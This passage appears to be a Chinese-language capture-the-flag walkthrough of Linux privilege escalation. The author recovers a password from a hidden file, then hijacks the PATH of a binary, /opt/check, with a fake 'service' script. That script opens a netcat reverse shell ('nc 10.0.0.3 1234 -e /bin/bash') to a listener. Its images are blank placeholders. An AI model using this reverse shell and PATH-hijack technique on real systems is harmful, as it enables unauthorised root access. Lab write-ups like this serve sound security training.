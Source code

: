 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

user3用户目录下发现隐藏文件.privacy.txt，看一下内容

```
cat .privacy.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

一段加密的字符串看着像md5，拿去试试

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到密码，切换到user3

```
su user3  
cd /home/user3  
ls  
cat TODO.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在TODO.txt文件中找到提示，让我们查找user.txt，但是执行find命令，提示没有权限 ，只能手动查找了

```
cd /opt  
ls -al
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

user.txt没找到，找到一个提权命令，来看看这个命令执行了哪些命令

```
strings check
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

我们到/tmp目录下创建service命令，再支持环境变量达到提权

1。攻击机监听1234端口

```
nc -lvvp 1234
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
cd /tmp  
echo 'nc 10.0.0.3 1234 -e "/bin/bash"' >service  
chmod +x service  
/opt/check
```
